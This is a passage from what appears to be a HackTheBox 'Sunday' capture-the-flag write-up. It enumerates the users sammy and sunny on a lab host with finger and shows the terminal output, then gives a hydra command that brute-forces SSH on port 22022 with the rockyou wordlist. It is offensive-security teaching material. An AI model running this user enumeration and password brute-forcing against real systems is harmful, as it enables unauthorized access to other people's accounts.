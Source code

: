 ```txt

```

![[Sunday-01.png]]

Excllent! we will have a two user name `sammy` and `sunny`. Now we can compare the results of finger for a name that exists and one that doesn’t:

```bash
finger sammy@10.10.10.76
finger sunny@10.10.10.76
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ finger sunny@10.10.10.76

Login       Name               TTY         Idle    When    Where
sunny           ???            ssh          <Apr 13 13:52> 10.10.14.13         
                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ finger sammy@10.10.10.76

Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13   
```

# Exploitation

## 22022/tcp
### SSH Bruteforce

Since we know `22022/tcp open unknown` was opened, and SSH for sunny and sammy was opened, we think the 22022 port may be a SSH port. So let's try SSH brute force attack to exploit it.

```bash
ssh sunny@10.10.10.76 -p 22022
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ ssh sunny@10.10.10.76 -p 22022

(sunny@10.10.10.76) Password: 

```
Since we have no indication of a password, we can try and brute-force the SSH with the following command:

```bash
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```
